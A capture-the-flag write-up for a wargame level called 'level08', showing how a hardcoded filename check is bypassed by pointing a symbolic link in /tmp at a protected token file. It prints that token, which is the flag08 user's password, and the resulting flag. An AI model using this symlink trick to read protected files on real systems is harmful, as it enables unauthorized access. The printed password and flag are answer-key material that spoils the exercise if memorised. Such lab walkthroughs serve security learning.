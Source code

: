 # level08

We're presented with an executable `level08` and a `token` file we can't read.

We run `./level08` and get :

```
./level08 [file to read]
```

We try `./level08 token` :

```
You may not access 'token'
```

We run `string ./level08`. Along with the messages above, we see a string that reads `token`. It's likely that whoever wrote the program hardcoded it to prevent any file named "token" from being read.

We can circumvent this issue with a symbolic link. We run :

```
cd /tmp
ln -s /home/user/level08/token symlink
cd
./level08 /tmp/symlink
```

The program is tricked, and outputs the contents of `token`. It's not actually the level's flag, but the password for user `flag08` :

```
quif5eloekouj29ke0vouxean
```

We run `su flag08` and get our flag with getflag :

```
25749xKZ8L7DkSCwJkT9dyv6f
```